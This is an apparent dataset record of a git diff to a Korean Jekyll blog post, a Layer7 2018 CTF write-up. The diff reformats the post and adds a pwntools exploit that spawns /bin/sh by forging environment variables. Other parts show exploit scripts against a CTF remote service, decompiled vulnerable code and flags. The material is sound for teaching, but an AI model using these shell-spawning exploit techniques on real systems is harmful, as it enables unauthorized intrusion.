

Before and after one commit to hOwD4yS/hOwD4yS.github.io, a Jekyll site: the page built from _posts/2018-09-21-Layer-7-2018-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 10667 px. Shown: the top 1395 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 11297 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
edit layer7 writeup

````diff
--- a/_posts/2018-09-21-Layer-7-2018-writeup.md
+++ b/_posts/2018-09-21-Layer-7-2018-writeup.md
@@ -194,7 +194,7 @@ hidden(); }
 
 __vuln__
 
-```
+```C++
 if ( v1 <= loanmoney )
 {
     loanmoney -= v1;
@@ -221,7 +221,10 @@ __exploit code__
 
 ```python
 from pwn import *
-FLAG =""cnt = 1
+
+FLAG =""
+cnt = 1
+
 while True:
      #p = process("./life_game")
      p = remote("layer7.kr",12000)
@@ -231,6 +234,7 @@ while True:
      p.sendline("5")
      for i in range(4):
           p.sendlineafter("6. escape","2")
+
      p.sendline("5") #bank
      p.sendline("3")
      p.sendlineafter("?\n","10000000")
@@ -257,7 +261,7 @@ FLAG :  LAYER7{L1f3..1s..P0k3m0n_or_D1g1m0n..wh4t?}
 
 <h2>talmoru_party!~</h2>
 
-```
+```C++
 void __cdecl menu()
 {
   line();
@@ -272,7 +276,7 @@ void __cdecl menu()
 
 문제 컨셉은 탈모이다
 
-```
+```C++
 printf(">>");
 __isoc99_scanf("%d", &v1);
 getchar();
@@ -301,12 +305,16 @@ puts("Get out!!!!!!!");
 return 0;
 ```
 
-여기서 재미있던게 함수이름을 바꿨는데 하나빼고 다 바뀐다
+여기서 재미있던게 IDA에서 함수이름을 바꿔주고 있었는데
+
+하나빼고 다 바뀐다
+
+<br>
 
 
 __exploit__
 
-```
+```C++
 void __cdecl munsiwoo_talmo()
 {
   char s; // [esp+0h] [ebp-40h]
@@ -322,6 +330,8 @@ void __cdecl munsiwoo_talmo()
 
 munsiwoo_talmo에 들어가면 바로 rop할 수 있다.
 참고적으로 fflush 함수가 있기때문에 dynstr 에서 sh만 쏙 빼내오면 된닿ᄒ
+
+<br>
 
 __exploit code__
 
@@ -352,9 +362,9 @@ p.interactive()
 
 FLAG : LAYER7{1\_r3411y\_H4t3\_t41m0\_^\_\_\_\_\_\_^}
 
-
 <br/>
 <br/>
+
 <h2>ezbt</h2>
 
 이 문제는 어렵게 풀었다고 해야되나 정식 풀이법은 아닌 것 같다.
@@ -363,6 +373,8 @@ FLAG : LAYER7{1\_r3411y\_H4t3\_t41m0\_^\_\_\_\_\_\_^}
 2. z3를 이용해 테이블 연산
 
 1 , 2 방법 둘다 한번에 플래그가 나오진 않는다. 하지만 두개를 조합하면 플래그가 나온다
+
+<br>
 
 __첫번째 방법__
 
@@ -395,6 +407,8 @@ print flag
 
 flag : ++++R7{D1d+y+u+us3+z3?\_Th+n+y+u\_++e+fOoO0Oo0Oo0l++y+^\_\_\_\_\_\_\_++}
 
+<br>
+
 __두번째 방법__
 
 ```python
@@ -411,11 +425,11 @@ z3로 테이블 가져오고 브루트 포싱하면
 
 LAYER7{D++++++++s3_z3?\_Th3n\_you\_4re\_fOoO\_guy\_^\_\_
 
-
+<br>
 
 1번 2번을 조합하고 어느정도 게싱을 하면
 
-
+<br>
 
 FLAG : LAYER7{D1d\_y0u\_us3_z3?\_Th3n\_you\_4re\_fOoO0Oo0Oo0l\_guy\_^\_\_\_\_\_\_\_\_^}
 
@@ -431,15 +445,23 @@ FLAG : LAYER7{D1d\_y0u\_us3_z3?\_Th3n\_you\_4re\_fOoO0Oo0Oo0l\_guy\_^\_\_\_\_\_\
 
 “내가 개발자라면 스레드가 언제, 어떻게 돌아가는지도 파악하기 어려울 것이다. 그럼 아마 스레드가 다 끝나면 table에 플래그가 있지 않을까?” 라고 추측을 했다.
 
-gdb로 돌렸더니 플래그가 나왔다.
+<br>
+
+그래서 main함수 끝나는 지점에 브레이크포인트를 걸고
+
+돌렸더니 플래그가 나왔다.
+
+
 
 ![image-20180922005607701](../img/2018-09-21-Layer-7-2018-writeup/TOSSS=1.png)
 
+<br>
+
 FLAG : LAYER7{WelcOm_t0_T0$$_Wlord!}
 
+<br>
 
-
-내가 푼 문제는 여기서 끝이고 추가적으로 못 푼 문제에 대해 써보려한다
+__내가 푼 문제는 여기서 끝이고 추가적으로 못 푼 문제에 대해 써보려한다__
 
 <br/>
 <br/>
@@ -497,6 +519,45 @@ jmp rsi를 이용할 수 있어서 시도를 했는데 실패했다.
 
 난 이 문제에 대해 설명을 듣고 싶고 싶다.
 
+<br>
+
+system내부에서 환경변수와 함께 execve를 호출하는데
+
+이때 환경변수를 조작하게 되면 쉘을 얻을 수 있다
+
+<br>
+
+```python
+from pwn import *
+
+p = process("./postbox")
+
+#raw_input()
+path = 0x000000000602100
+
+command = "/bin/sh"
+exploit = "#!{0}\n{1}\x00\n".format(command,command)
+
+fake_env_addr = p64(path+len(exploit)) * 0x200
+
+p.sendlineafter("?\n",fake_env_addr)
+p.sendlineafter("?\n","clear")
+p.recvuntil("./")
+path = "./"+p.recvuntil("/\n")[:-2]
+
+log.info("path : {0} addr : {1}".format(hex(u64(fake_env_addr[0:8])),path))
+
+fake_env  = exploit
+fake_env += "PATH=" + path +":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin\x00"
+fake_env += "SHELL=/bin/bash\x00"
+fake_env += "PWD="+path+"\x00"
+
+p.sendafter(">>",fake_env)
+p.interactive()
+```
+
+-2018.10.15 수정
+
 <br/>
 <br/>
 
````
Also changed, not shown: other parts of _posts/2018-09-21-Layer-7-2018-writeup.md (+1 -1 lines).
